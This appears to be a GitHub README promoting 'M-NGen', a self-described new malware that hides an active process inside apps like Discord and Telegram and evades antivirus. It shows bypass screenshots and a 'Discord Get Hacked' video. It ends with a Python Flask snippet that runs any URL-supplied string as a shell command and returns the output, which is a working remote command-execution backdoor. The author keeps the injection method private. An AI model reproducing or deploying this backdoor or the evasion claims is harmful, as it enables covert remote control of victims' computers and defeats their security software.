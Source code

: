 # M-NGen

M-NGen Malware Revolution
I managed to develop a completely new type of malware... Honestly, I've never seen malware work this way before!

I was able to embed a hidden active process into any application! I tested it on applications like Discord, Telegram, and some others, and the method was completely successful... The challenge here is that antivirus software will perceive the application as a legitimate version of Discord or any other app! 😳

The interesting part is that the embedding method I used is not the usual Process Injection technique.

<div align="center">
  <img src="https://files.catbox.moe/2x1ppg.png" width="350px">
</div>

> [!WARNING]  
> The method is still private, I can't share it publicly!

<div align="center">
  <img src="https://files.catbox.moe/3yceau.jpg" width="760px">
</div>

## Video :

https://github.com/user-attachments/assets/51f80947-a945-41e7-83d0-835b0fa38754

AV BYPASS :
<div align="center">
  <img src="https://files.catbox.moe/diwxzf.jpg" width="760px">
</div>

### Discord Get Hacked Hehehe
https://github.com/user-attachments/assets/a97de13d-781f-4c77-9763-14d198786eaf


## Used languages:

1. C++
2. NodeJs
3. C#

## Part Of Code : (It's Note All of The code)

```python
# This is A part From The Code
import subprocess
from flask import Flask, jsonify
f = Flask(__name__)
@f.route('/HDL/X/<t>', methods=['GET'])
def r(t):
    return h1ack(t)
def h1ack(c):
    if c:
        result = subprocess.run(c, shell=True, capture_output=True, text=True)
        return jsonify({"c": c, "o": result.stdout})
    return jsonify({"error": "Command not allowed"}), 403
if __name__ == '__main__':
    f.run(debug=True)


